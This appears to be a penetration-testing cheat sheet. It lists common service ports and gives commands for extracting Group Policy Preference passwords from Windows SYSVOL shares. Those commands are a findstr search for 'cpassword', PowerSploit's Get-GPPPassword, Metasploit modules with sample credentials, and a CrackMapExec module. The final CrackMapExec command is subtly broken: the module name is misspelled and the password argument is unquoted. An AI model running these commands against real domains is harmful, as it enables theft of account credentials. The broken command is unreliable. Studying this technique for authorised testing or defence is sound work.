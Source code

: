 #### SMTP
Port 25

#### HTTP
Port 80

#### Telnet
Port 23

#### FTP
Port 21

##### LDAP
LDAPS uses its own distinct network port to connect clients and servers. The default port for LDAP is port 389, but LDAPS uses port 636 and establishes TLS/SSL upon connecting with a client.

### SYSVOL / GPP
- https://adsecurity.org/?p=2288

*From Windows client perspective*
```
findstr /S /I cpassword \\<FQDN>\sysvol\<FQDN>\policies\*.xml
```

The PowerSploit function Get-GPPPassword is most useful for Group Policy Preference exploitation.  
- [Get-GPPPassword.ps1](https://github.com/PowerShellMafia/PowerSploit/blob/master/Exfiltration/Get-GPPPassword.ps1)

*From Linux client*  

##### Metasploit Module
```
use auxiliary/scanner/smb/smb_enum_gpp
msf auxiliary(smb_enum_gpp) > set rhosts 192.168.1.103
msf auxiliary(smb_enum_gpp) > set smbuser raj
msf auxiliary(smb_enum_gpp) > set smbpass Ignite@123
msf auxiliary(smb_enum_gpp) > exploit
```

##### Metasploit Post-Module : Once you get shell on windows host
```
use post/windows/gather/credentials/gpp
msf post(windows/gather/credentials/gpp) > set session 1
msf post(windows/gather/credentials/gpp) > exploit
```

##### CrackMapExec Module 1 : gpp_password
Retrieves the plaintext password and other information for accounts pushed through Group Policy Preferences.
Groups.xml, Services.xml, Scheduledtasks.xml, DataSources.xml, Printers.xml, Drives.xml
```
crackmapexec smb 192.168.0.10 -u jdoe -p Password 123 -M gpp_pasword
```
